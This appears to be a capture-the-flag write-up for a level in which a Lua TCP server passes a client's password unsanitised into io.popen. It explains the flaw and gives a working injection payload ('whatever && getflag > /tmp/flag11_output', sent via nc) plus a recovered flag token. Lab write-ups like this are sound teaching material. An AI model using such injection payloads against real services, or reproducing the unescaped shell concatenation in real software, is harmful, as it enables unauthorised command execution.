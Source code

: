 # Level 11: Command Injection via Lua Script

## Program Analysis: `level11.lua`

The provided Lua script (`level11.lua`) sets up a simple TCP server listening on `127.0.0.1:5151`.

**Functionality:**

1.  **Listens for Connections:** It waits for clients to connect to port 5151 using `socket.bind` and `server:accept()`.
    ```lua
    local server = assert(socket.bind("127.0.0.1", 5151))
    -- ... later in the loop ...
    local client = server:accept()
    ```
2.  **Prompts for Password:** Upon connection, it sends a "Password: " prompt to the client.
    ```lua
    client:send("Password: ")
    ```
3.  **Receives Input:** It reads the line of text sent by the client.
    ```lua
    local l, err = client:receive()
    ```
4.  **Hashes Input:** It defines a `hash` function that takes the client's input (`pass`) and constructs/executes a shell command using `io.popen` to get the SHA-1 hash.
    ```lua
    function hash(pass)
      prog = io.popen("echo "..pass.." | sha1sum", "r")
      data = prog:read("*all")
      prog:close()
      data = string.sub(data, 1, 40)
      return data
    end
    -- ... later called with ...
    local h = hash(l)
    ```
5.  **Compares Hash:** It compares the calculated SHA-1 hash (`h`) with a hardcoded target hash.
    ```lua
    if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
        -- Handle mismatch
    else
        -- Handle match
    end
    ```
6.  **Sends Result:** It sends "Gz you dumb*\n" if the hashes match, or "Erf nope..\n" otherwise.
    ```lua
    client:send("Erf nope..\n");
    -- or
    client:send("Gz you dumb*\n")
    ```
7.  **Closes Connection:** It closes the client connection.
    ```lua
    client:close()
    ```

The script runs with SUID/SGID permissions for `flag11`, meaning any commands executed via `io.popen` will run as user `flag11`.

## Vulnerability: Command Injection

The path hijacking of level03 would not work here because the server is already running with its own environment when we start the level.
In this case, the critical vulnerability lies within the `hash` function, specifically in the line:

```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```

The script directly concatenates the user-provided input (`pass`) into the shell command string without any sanitization or escaping. This allows a malicious client to inject shell metacharacters (like `;`, `&&`, `||`, `$(...)`, `` `...` ``) to execute arbitrary commands on the server with the privileges of the `flag11` user.

## Exploitation

To exploit this, we need to connect to the server and send a payload that includes a command separator followed by the `getflag` command. Since the server reads the output of the *entire* piped command (`echo ... | sha1sum`), simply running `getflag` might not display the flag directly to our client connection, as the Lua script captures it.

A reliable method is to redirect the output of `getflag` to a file we can read later.

1.  **Connect to the server:**
    ```bash
    nc 127.0.0.1 5151
    ```
2.  **Send the payload:** When prompted for the password, send a string containing the command injection. Using `&&` ensures `getflag` only runs if `echo` succeeds (which it always will). We redirect `getflag`'s output to a temporary file (e.g., `/tmp/flag11_output`):
    ```
    whatever && getflag > /tmp/flag11_output
    ```
    *(Note: The specific text before `&&`, like "whatever", doesn't matter for the injection itself)*
3.  **Receive Server Response:** The server will likely respond with "Erf nope..\n" because the hash comparison will fail (the output of `getflag` is not the expected hash).
4.  **Read the Flag:** After the connection closes, read the content of the output file:
    ```bash
    cat /tmp/flag11_output
    ```
    This will display the flag needed to log in as `flag11` (e.g., `Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s`).
